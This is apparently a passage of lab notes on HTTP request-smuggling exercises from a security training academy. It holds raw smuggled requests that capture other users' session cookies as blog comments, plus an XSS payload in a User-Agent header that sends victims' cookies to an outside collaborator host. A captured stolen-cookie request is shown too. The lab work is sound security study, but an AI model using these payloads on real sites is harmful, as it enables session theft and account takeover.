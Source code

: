 ```http
Content-Length: 353
Transfer-Encoding: chunked

7e
csrf=KTmPGWrjDRH23ANXPHZUFU7uqzWia0ZB&postId=4&name=hacker&email=hacker%40hack.com&website=http%3A%2F%2Ffake.com&comment=blbbl
0

POST /post/comment HTTP/1.1
Cookie: session=56jZRHxyFe7HUHcSGQE9kQxFbSJpx0rQ
Content-Length: 300

csrf=KTmPGWrjDRH23ANXPHZUFU7uqzWia0ZB&postId=4&name=carlos&email=hackerr@hack.com&website=http://fake.com&comment=
```
- wait for another user to make a request and you will find a comment with their request
```http
POST /post/comment HTTP/1.1 Host: 0ad300f903097f52834a253900ca003a.web-security-academy.net
Cookie: session=56jZRHxyFe7HUHcSGQE9kQxFbSJpx0rQ
Content-Type: application/x-www-form-urlencoded
Content-Length: 353 Transfer-Encoding: chunked 7e csrf=KTmPGWrjDRH23ANXPHZUFU7uqzWia0ZB
```
### reflected XSS to Stored XSS
```
1)It requires no interaction with victim users.
2)You don't need to feed them a URL and wait for them to visit it,
You just smuggle a request containing the XSS payload and the next user's request that is processed by the back-end server will be hit.
3)It can be used to exploit XSS behavior in parts of the request that cannot be trivially controlled in a normal reflected XSS attack, such as HTTP request headers.
```

- request
```http
POST / HTTP/1.1
Host: 0a6000ba044f324f82b0c961008a0018.web-security-academy.net
Cookie: session=8rkTvMtS8FYTUKBaYT1fbzQQ9LjRL4wY
Content-Type: application/x-www-form-urlencoded
Content-Length: 177
Transfer-Encoding: chunked

0

GET /post?postId=9 HTTP/1.1
User-Agent: "><script>location='http://awapn15squ47vsk973cd1d7xjopfd51u.oastify.com/?cookies='+document.cookie</script>
Content-Length: 40


```
- wait another user to make a request then the script will run on their browser (in our case send cookies to our server)
```http
GET /?cookies=secret=TeQVKzAQmjAvw0Fy5ZYRR2nQJVNYXbKX HTTP/1.1
Host: awapn15squ47vsk973cd1d7xjopfd51u.oastify.com
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

```